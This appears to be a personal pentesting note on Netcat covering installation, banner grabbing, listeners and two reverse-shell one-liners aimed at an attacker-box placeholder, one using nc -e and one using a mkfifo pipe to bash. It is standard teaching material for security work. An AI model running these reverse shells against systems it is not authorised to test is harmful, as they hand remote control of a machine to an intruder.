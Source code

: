 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Summary
[Netcat](https://linux.die.net/man/1/nc) or *nc* is a network utility for interacting with TCP/UDP ports.
> [PowerCat](https://github.com/besimorhino/powercat) is the PowerShell equivalent of Netcat.
> [[Socat]] is a similar tool to netcat but offers additional features including full TTY reverse shells

> ncat is the Nmap version of netcat, they are different and have different features.
## Installation
```
sudo apt install netcat
```

## Documentation
**Cheatsheet:** https://quickref.me/nc.html
**Website:** 
## Usage
### Banner Grabbing
```
nc -vn [target] [port]
```
This aids us in confirming the service running on a particular port.

We can also use `curl -IL [url]` for banner grabbing web server headers.

### Create a simple reverse shell
In many versions of netcat, the *-e* flag doesn't exist so this method isn't all reliable
```bash
# On victim machine
nc -e /bin/sh [Atkbox IP] [Port]
```
- *-e* : binds a shell to a port

Without *-e*:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [IP] [Port] > /tmp/f
```

### Create a listener
```
nc -lvnp [Port]
```
- *-l* : specifies to listen
- *-v* : more vebose
- *-n* : disables DNS resolution and uses just IPs, to speed up the connection
- *-p* : specifies the source port

![[Misc/File Transfer#Using NetCat & Ncat|File Transfer]]